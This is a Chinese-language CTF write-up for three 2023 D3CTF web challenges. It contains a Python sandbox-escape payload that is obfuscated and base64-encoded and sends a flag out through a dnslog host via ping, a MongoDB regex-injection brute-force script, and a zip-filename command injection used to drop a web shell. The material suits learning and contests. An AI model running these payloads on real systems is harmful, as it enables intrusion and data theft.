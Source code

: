 ```yaml
---
title: "2023 D3CTF Web 部分 Writeup"
date: 2023-05-01T22:07:55+08:00
lastmod: 2023-05-01T22:07:55+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


2023 D3CTF

<!--more-->

## Escape Plan

参考 [https://cn-sec.com/archives/1322842.html](https://cn-sec.com/archives/1322842.html)

ping dnslog 外带 flag

```python
import base64

u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'

CMD = "eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X19pbXBvcnRfXygnb3MnKS5wb3BlbigncGluZyBgL3JlYWRmbGFnYC40MWh4aTYuZG5zbG9nLmNuICAnKS5yZWFkKCkg=()))[len([])]))"

CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})

print(base64.b64encode(CMD.replace('eval', 'ᵉval').encode()).decode())
```

## d3node

右键源代码第一个 hint, 一眼 mongodb 注入

```python
import requests
import time
import json
import re
from urllib.parse import quote

dicts = '0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz'

flag = ''

while True:
    for s in dicts:
        print('testing', s)
        url = 'http://47.102.98.112:32299/user/LoginIndex'
        res = requests.post(url,data=json.dumps({'username': 'admin', 'password': {'$regex': '^' + flag + s}}), headers={'Content-Type': 'application/json'})
        if 'Hacker' in res.text:
            print('error')
            quit()
        if 'invalid' not in res.text:
            flag += s
            print('found!!!', flag)
            break
```

admin 密码为 `dob2xdriaqpytdyh6jo3`

然后登进去右键源码第二个 hint 可以读文件

结合后台给的 setDependencies 和 packDependencies 功能猜测是要通过设置 `package.json` 进行 rce

参考 2022 ByteCTF 的 ctf\_cloud

![image-20230430191556152](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304301916395.png)

SetDependencies

![image-20230430191617226](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304301916256.png)

PackDependencies

![image-20230430191744150](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304301917186.png)

ShwoExampleFile 读文件拿到回显

![image-20230430191807925](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304301918963.png)

## d3cloud

后台 `/admin`

弱口令 admin/admin

登进去发现安装了 [laravel-admin-extensions/media-manager](https://github.com/laravel-admin-extensions/media-manager) 这个插件

里面放了一个 `FilesystemAdapter.php`, 存在 auto unzip 的功能

```php
/**
 * Store the uploaded file on the disk with a given name.
 *
 * @param  string  $path
 * @param  \Illuminate\Http\File|\Illuminate\Http\UploadedFile  $file
 * @param  string  $name
 * @param  array  $options
 * @return string|false
 */
public function putFileAs($path, $file, $name, $options = [])
{
    $supported_file = array('gif','jpg','jpeg','png','ico','zip','mp4','mp3','mkv','avi','txt');
    $file_type= strtolower(pathinfo($name,PATHINFO_EXTENSION));
    if (!in_array($file_type, $supported_file)) {
        return false;
    }
    $stream = fopen($file->getRealPath(), 'r+');
    $result = $this->put(
        $path = trim($path.'/'.$name, '/'), $stream, $options
    );
    if (is_resource($stream)) {
        fclose($stream);
    }
    if($file->getClientOriginalExtension() === "zip") {
        $fs = popen("unzip -oq ". $this->driver->getAdapter()->getPathPrefix() . $name ." -d " . $this->driver->getAdapter()->getPathPrefix(),"w");
        pclose($fs);
    }
    return $result ? $path : false;
}
```

很明显存在命令注入

先随便传一个打包好的 shell.zip, 然后再传一次, 把 filename 改成

```
shell.zip -d /var/www/html/public/shell.zip;123.zip
```

![image-20230430195134193](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304301951229.png)

![image-20230430195116974](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202304301951017.png)